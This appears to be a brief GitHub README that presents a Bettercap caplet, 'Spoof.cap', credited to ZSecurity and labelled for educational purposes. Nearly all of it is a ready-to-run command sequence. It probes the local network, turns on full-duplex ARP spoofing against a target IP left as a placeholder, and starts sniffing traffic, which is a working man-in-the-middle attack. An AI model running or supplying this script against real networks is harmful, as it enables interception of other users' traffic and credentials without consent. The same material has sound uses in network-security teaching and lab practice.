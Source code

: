 # Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY
`net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7 (target IP here)
arp.spoof on
net.sniff on`
